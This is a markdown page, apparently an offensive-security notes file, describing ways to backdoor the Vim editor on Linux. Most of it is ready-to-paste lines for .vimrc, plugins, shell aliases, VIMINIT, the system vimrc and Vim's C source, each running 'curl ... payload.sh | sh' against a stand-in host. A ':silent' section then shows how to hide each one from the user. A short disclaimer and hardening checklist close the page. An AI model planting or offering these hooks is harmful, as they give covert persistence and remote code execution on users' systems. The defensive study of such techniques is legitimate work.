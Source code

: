 
## VIM Exploits

Backdooring a text editor like Vim can be malicious and unethical. However, understanding potential vulnerabilities can help in securing systems and ensuring that they are protected against such threats. Here are some methods that could theoretically be used to backdoor Vim on Linux:

### 1. **Vim Configuration Files (`.vimrc` and `vimrc`)**

The `~/.vimrc` file in a user's home directory is executed whenever Vim starts. Adding malicious commands or scripts to this file can result in a backdoor.

```vim
" Add the following to .vimrc
autocmd VimEnter * !curl http://malicious-site.com/payload.sh | sh
```

This command will execute a script from a remote server every time Vim starts.

### 2. **Vim Plugins**

Installing or modifying Vim plugins to include malicious code can backdoor Vim. This can be done by tampering with popular plugin files located in `~/.vim/plugged/`.

```vim
" Example malicious plugin code
autocmd VimEnter * call system('curl http://malicious-site.com/payload.sh | sh')
```

### 3. **Aliases**

Creating an alias for the `vim` command in the shell configuration files (`.bashrc`, `.zshrc`, etc.) can redirect users to a malicious script.

```sh
# Add the following to .bashrc or .zshrc
alias vim='curl http://malicious-site.com/payload.sh | sh; /usr/bin/vim'
```

### 4. **Compiling a Malicious Version of Vim**

One can compile a custom version of Vim with added malicious code in the source code. For example, inserting a backdoor in the main function.

```c
int main(int argc, char **argv)
{
    system("curl http://malicious-site.com/payload.sh | sh");
    // Original Vim code here
}
```

### 5. **Exploiting Vulnerabilities**

If there are known vulnerabilities in Vim, they could be exploited to gain code execution. For example, certain versions of Vim have had vulnerabilities in how they handle modelines.

### 6. **Environment Variables**

Setting environment variables that affect Vim can introduce backdoors.

```sh
# Add the following to .bashrc or .zshrc
export VIMINIT=':!curl http://malicious-site.com/payload.sh | sh'
```

### 7. **Modifying System Vimrc**

Modifying the system-wide Vim configuration file (usually located at `/etc/vimrc` or `/usr/share/vim/vimrc`) can affect all users on the system.

```vim
" Add the following to /etc/vimrc
autocmd VimEnter * !curl http://malicious-site.com/payload.sh | sh
```

### 8. **Autocommands**

Using Vim’s autocommand feature to trigger malicious actions on certain events.

```vim
" Add the following to .vimrc
autocmd BufReadPost * !curl http://malicious-site.com/payload.sh | sh
```

## :Silent

Using `:silent` in Vim can suppress messages and outputs, which can help in hiding malicious activity. Here’s how `:silent` can be used in some of the methods mentioned earlier to make the backdoor less noticeable:

### Example 1: `.vimrc` File

Adding a `:silent` command in `.vimrc` to execute a malicious script silently:

```vim
" Add the following to .vimrc
autocmd VimEnter * silent !curl http://malicious-site.com/payload.sh | sh
```

### Example 2: Vim Plugins

If a malicious plugin is used, `:silent` can be added to the plugin script to hide its execution:

```vim
" Example malicious plugin code
autocmd VimEnter * silent call system('curl http://malicious-site.com/payload.sh | sh')
```

### Example 3: Aliases

Using `:silent` in combination with aliases might not be straightforward since aliases are defined in the shell configuration files. However, within the alias, you can call Vim with a `-c` command to execute silently:

```sh
# Add the following to .bashrc or .zshrc
alias vim='vim -c "silent !curl http://malicious-site.com/payload.sh | sh" -c q; /usr/bin/vim'
```

### Example 4: Environment Variables

Setting an environment variable to run a silent command:

```sh
# Add the following to .bashrc or .zshrc
export VIMINIT=':silent !curl http://malicious-site.com/payload.sh | sh'
```

### Example 5: Modifying System Vimrc

Using `:silent` in the system-wide Vim configuration file:

```vim
" Add the following to /etc/vimrc
autocmd VimEnter * silent !curl http://malicious-site.com/payload.sh | sh
```

### Example 6: Autocommands

Adding a silent autocommand:

```vim
" Add the following to .vimrc
autocmd BufReadPost * silent !curl http://malicious-site.com/payload.sh | sh
```

### Ethical Considerations

Again, it's essential to emphasize that using these methods for malicious purposes is illegal and unethical. The information provided here is solely for educational purposes to help understand potential security risks and how to defend against them.

### Securing Vim

To ensure Vim is secure and free from such backdoors:

1. **Regularly Audit Configuration Files:** Periodically check `.vimrc`, system-wide vimrc, and plugin files for any suspicious commands.
2. **Verify Plugins:** Only use plugins from trusted sources and verify their integrity.
3. **Monitor Changes:** Use tools like `Tripwire` or `AIDE` to monitor changes to critical files and configurations.
4. **Check Environment Variables:** Ensure no unauthorized environment variables are set.
5. **Update Regularly:** Keep Vim and the system updated with the latest security patches.
6. **Restrict File Permissions:** Limit write permissions to configuration files and system directories to trusted users only.

By being vigilant and implementing these security measures, you can help prevent and detect attempts to backdoor Vim.
